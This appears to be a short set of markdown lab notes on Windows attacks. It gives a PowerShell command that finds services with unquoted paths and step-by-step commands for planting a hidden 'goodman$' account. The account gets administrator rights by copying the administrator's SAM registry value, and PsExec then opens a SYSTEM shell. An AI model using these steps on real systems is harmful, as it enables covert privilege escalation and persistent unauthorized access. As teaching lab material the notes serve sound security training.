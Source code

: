 # Lab2
---
## Lab 2-1 find the unquoated service
- get-wmiobject win32_service | ?{$_.pathname -match"^`"{0,1}(C|c):*\\.*\s+.*\\.*"} | select Name, Pathname, State, ProcessID
- get-acl

## Lab2-_2 Hidden account
1. net user goodman$ \<passwd\> /add
1. Export regedit 
    1. sam\domains\account\users\names\goodman$ as name.reg
    1. sam\domains\account\users\\<admimistratorID\> as source.reg
    1. sam\domains\account\users\\<goodman$ID> as target.reg
1. Delete goodman$ account
1. Copy F=hex value from source.reg to target.reg
1. Import name and target reg
    1. regedit /s \<xxx\>.reg
1. Us PSexec to get system cmd
    1. psexec -u hidden$ -p \<passwd\> cmd
    1. psexec -i-s cmd
